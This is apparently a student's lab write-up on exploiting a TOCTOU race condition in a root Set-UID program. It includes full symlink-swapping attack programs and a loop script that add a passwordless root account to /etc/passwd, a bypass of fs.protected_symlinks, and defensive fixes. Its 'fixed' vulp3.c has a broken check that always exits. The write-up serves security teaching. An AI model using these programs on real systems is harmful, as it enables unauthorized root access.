



# CIS 751 Lab Assignment 3
### Author: Chuck Zumbaugh
### Collaborators: None

## Task 1
In this task we will verify that the Ubuntu "magic password" allows us to login by just pressing the return key. To do this, we will modify the `/etc/passwd` file as a superuser and create a test account with the following line. This indicates the account name is "test", the password is `U6aMy0wojraho`, the user ID is 0 (root), the group ID is 0 (root), the description is "root", the home directory is `/root`, and the default shell is `/bin/bash`.
```sh
test:U6aMy0wojraho:0:0:root:/root:/bin/bash
```

Indeed, as Figure 1 demonstrates, we can successfully log into the test account with no password, and we have a root shell.


## Task 2
In this task, we will exploit a race condition in a vulnerable program to create a test user with root privileges by adding the line from Task 1 to `/etc/passwd`. The vulnerable program is a root-owned Set-UID program shown below.

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main()
{
    char *fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;

    /* Get user input */
    scanf("%50s", buffer);

    if (!access(fn, W_OK)) {
        // TOCTOU vulnerability between access() and fopen()
        fp = fopen(fn, "a+");
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else printf("No permission\n");
}
```

We then create a file, `passwd_input`, with the following contents.

```sh
test:U6aMy0wojraho:0:0:root:/root:/bin/bash
```

We will use symbolic links to attack the vulnerable program. Specifically, we will use a program that creates a symbolic link from `/tmp/XYZ` to either `/etc/passwd` or a regular file (`myfile` in this case). We have write permission to `myfile` but not `/etc/passwd`. Thus, our goal is for the following sequence of events to occur.

1. `/tmp/XYZ` is symbolically linked to `myfile`
2. The vulnerable program executes `access(fn, W_OK)`. Since `access()` checks if the real-UID has write permission for the file, it should succeed for `myfile` but not `/tmp/passwd`.
3. `/tmp/XYZ` is symbolically linked to `/etc/passwd`.
4. The vulnerable program executes `fopen(fp, "a+")`. Since `fopen()` checks the effective-UID (root in this case due to Set-UID), it should succeed for both `myfile` and `/tmp/passwd`.

We will use the following attack program to run in the background and alternate between symbolic links. This program was then compiled using `gcc attack.c -o attack`.

```c
/* attack.c */
#include <unistd.h>
#include <stdlib.h>

int main()
{
    while(1) {
        /* Create symbolic link to a file we have write access to */
        unlink("/tmp/XYZ");
        // /home/seed/race_cond/myfile is the path to a file we can write to
        symlink("/home/seed/race_cond/myfile", "/tmp/XYZ");
        usleep(10000);

        /* Create symbolic link to the /etc/passwd file we want to write to */
        unlink("/tmp/XYZ");
        symlink("/etc/passwd", "/tmp/XYZ");
        usleep(10000);
    }
    return 0;
}
```

We also need a program to run the vulnerable program with our input in a loop until it succeeds. Because we are unlikely to succeed on a given iteration, we need to run this many times until one of the iterations is successful and the passwd file is updated. The following program will be used for this.

```sh
# target_process.sh
#!/bin/bash

CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
    ./vulp < passwd_input # Run vulp with our password input
    new=$($CHECK_FILE) # Update the new variable
done
echo "STOP... The passwd file has been changed"
```

With these programs in place, we can now run the `attack` and `target_process.sh` programs in parallel.

```sh
attack & target_process.sh
```

As expected, we see many "No permission" printed to the terminal. However, after some time the commands are executed in the desired order and we are successful.

*Note that the /tmp/XYZ file did need to be removed once as it became root owned. This is due to a race condition in the attack.c program.*


As expected, we have root privileges when we log in as test.


\newpage

## Task 2.B
In this task we will fix the race condition bug in our attack program. As mentioned at the end of the previous section, the /tmp/XYZ file needed to be removed once during the exploit process because it became root-owned. When this occurrs, our attack program running with seed privilege can no longer `unlink()` it and our attack will fail. This occurrs because the process of unlinking and creating a symbolic link is not atomic. The bug occurrs when a context switch happens between the `unlink()` and `symlink()` calls, a state where `/tmp/XYZ` is not linked to anything. The victim program attempts to access it and creates the file as root. When this happens, we lose privileges to make changes to `/tmp/XYZ` and the attack fails.

To fix this, we will use the `SYS_renameat2` system call to atomically swap symbolic links and remove the race condition in the attack program. The following revised attack program was used.

```c
/* attack2.c */
#include <stdlib.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

int main()
{
    /* 
     * Initial setup. We need to create the initial symbolic links
     * using non-atomic operations. We will then use a loop to
     * atomically swap these links, giving the desired behavior.
    */
    unsigned int flags = RENAME_EXCHANGE;
    // Create initial symbolic links for XYZ
    unlink("/tmp/XYZ");
    symlink("/home/seed/race_cond/myfile", "/tmp/XYZ");
    
    // Create initial symbolic links for ABC
    unlink("/tmp/ABC");
    symlink("/etc/passwd", "/tmp/ABC");

    while(1) {
        // Swap symbolic links between XYZ and ABC
        syscall(SYS_renameat2, 0, "/tmp/XYZ", 0, "/tmp/ABC", flags);
        usleep(10000); // Sleep for 10 ms
    }
    return 0;
}
```

After compiling this program as `attack2`, this can be run using the same `target_process.sh` program.

```sh
attack2 & target_process.sh
```

As expected, after several iterations we successfully update the `passwd` file and can log in as a root user.



\newpage

## Task 3
In the previous examples, we attepmted to secure the program through the use of `access()`. Clearly, this was unsuccessful and is not a good approach. In the following example, we will apply the priciple of least privilege, and drop privilege prior to opening and modifying the file. If needed, we can always escalate privilege when needed. The vulnerable program has been updated as follows.

```c
/* vulp2.c */
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main()
{
    /* This is a Set-UID program, so EUID is 0.
     * We will change this before calling fopen()
     * and update to RUID
    */
    uid_t real_uid = getuid();
    uid_t eff_uid = geteuid();
    char *fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;

    // Get user input
    scanf("%50s", buffer);
    // Drop privilege
    seteuid(real_uid);
    /* fopen() checks EUID, which is now RUID.
     * Thus, open will fail if the current
     * user does not have write permission to
     * the file
    */
    if (fp = fopen(fn, "a+")) {
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    } else printf("No permission\n");
    // If needed, we can escalate privileges
    // using seteuid(eff_uid)
}
```

As before, we make the compiled binary a root-owned Set-UID program and update `target_process.sh` to call this new program.

Unlike before, we do not succeed in modifying the passwd file. Instead we see endless "No permission" printed to the terminal. The previous exploit took advantage of the TOCTOU culnerability between `access()` and `fopen()`, and relied upon the effective UID being root when `fopen()` was called. In the current program we have explicitly set the EUID to be the RUID before `fopen()` is called. Thus, `fopen()` checks the EUID, which is no longer root, and refuses to open the file when it is `/etc/passwd`. We do get writes to the `myfile` file when `/tmp/XYZ` points to it, however, as the seed user has write permissions to that file. 

## Task 4
Finally, we will repeat this attack with Ubuntu's built-in protection against race condition attacks turned on. This feature helps to prevent against TOCTOU race condition attacks, and restricts how symbolic links can be followed in sticky world-writable directories such as `/tmp`. When enabled, it permits symbolic links from being followed only if 1) The current process owns the symbolic link, 2) The owner of the directory owns the symbolic link, or 3) The symbolic link is created in a non-sticky, non-world-writable directory.

As expected, our attack fails when this protection is enabled and we observe the following error printed.
```sh
./target_process.sh: line 10: 23404 Segmentation fault  ./vulp < passwd_input
```

This error is due to the lack of checks after `fopen()` is called, which will return `NULL` if the file cannot be opened. Thus, when the system tries to open a file that we have protected with `fs.protected_symlinks` the `fp` pointer is `NULL` and we get a SEGFAULT when we try to write. We can easily fix this by adding the following check.
```c
/* vulp3.c */
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main()
{
    char *fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;

    /* Get user input */
    scanf("%50s", buffer);

    if (!access(fn, W_OK)) {
        // TOCTOU vulnerability between access() and fopen()
        fp = fopen(fn, "a+"); 
        if (fp == NULL) fprint("Cannot open file\n"); exit(1);
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else printf("No permission\n");
}
```

If we use this program, we now see `Cannot open file` printed when this occurrs rather than a SEGFAULT.

In any case, we are unable to successfully execute the attack. The enabled protection will prevent us from following the symbolic link, and the program will either crash (due to trying to write to a null pointer) or exit.

However, the `fs.protected_symlinks` protection is not foolproof. Because protections are not absolute, they can be bypassed in certain situations such as when the symbolic links are not in a sticky, world-writable directory. For example, we can perform the following experiment where we create a new subdirectory in `/tmp` by using `mkdir /tmp/subdir`. If we modify the vulnerable program as follows.
```c
/* vulp4.c */
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main()
{
    char *fn = "/tmp/subdir/XYZ";
    char buffer[60];
    FILE *fp;

    /* Get user input */
    scanf("%50s", buffer);

    if (!access(fn, W_OK)) {
		// TOCTOU vulnerability between access() and fopen()
        fp = fopen(fn, "a+");
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else printf("No permission\n");
}
```

And update our attack program accordingly.
```c
/* attack3.c */
#include <stdlib.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

int main()
{
    /* 
     * Initial setup. We need to create the initial symbolic links
     * using non-atomic operations. We will then use a loop to
     * atomically swap these links, giving the desired behavior.
    */
    unsigned int flags = RENAME_EXCHANGE;
    // Create initial symbolic links for XYZ
    unlink("/tmp/subdir/XYZ");
    symlink("/home/seed/race_cond/myfile", "/tmp/subdir/XYZ");
    
    // Create initial symbolic links for ABC
    unlink("/tmp/subdir/ABC");
    symlink("/etc/passwd", "/tmp/subdir/ABC");

    while(1) {
        // Swap symbolic links between XYZ and ABC
        syscall(SYS_renameat2, 0, "/tmp/subdir/XYZ", 0, "/tmp/subdir/ABC", flags);
        usleep(10000); // Sleep for 10 ms
    }
    return 0;
}
```

We can still successfully modify the password file because `/subdir` will not inherit the sticky bit from `/tmp`. 




